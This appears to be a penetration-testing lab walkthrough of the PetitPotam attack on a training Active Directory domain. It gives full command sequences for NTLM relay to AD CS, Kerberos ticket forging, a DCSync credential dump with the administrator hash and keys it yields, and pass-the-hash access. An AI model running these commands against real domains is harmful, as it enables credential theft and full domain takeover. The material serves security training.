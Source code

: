 Prerequisite : Active Directory Certificate Services (AD CS) is used into the domain

The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC).

Starting ntlmrelayx.py
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

In another window, we can run the tool PetitPotam.py.
python3 PetitPotam.py <attack host IP> <Domain Controller IP>

--> attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.

Catching Base64 Encoded Certificate for DC01


Other solutions to run PetitPotam exploit :
Mimikatz
misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>
Powershell
Invoke-PetitPotam.ps1

Running PetitPotam.py
python3 PetitPotam.py <attack host IP> <Domain Controller IP>

Catching Base64 Encoded Certificate for DC01

[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIISt...CKBdGmY=
[*] Skipping user ACADEMY-EA-DC01$ since attack was already performed

Requesting a TGT Using gettgtpkinit.py
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIISt...CKBdGmY= dc01.ccache

Setting the KRB5CCNAME Environment Variable
export KRB5CCNAME=dc01.ccache

Using Domain Controller TGT to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f

klist

Confirming Admin Access to the Domain Controller
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
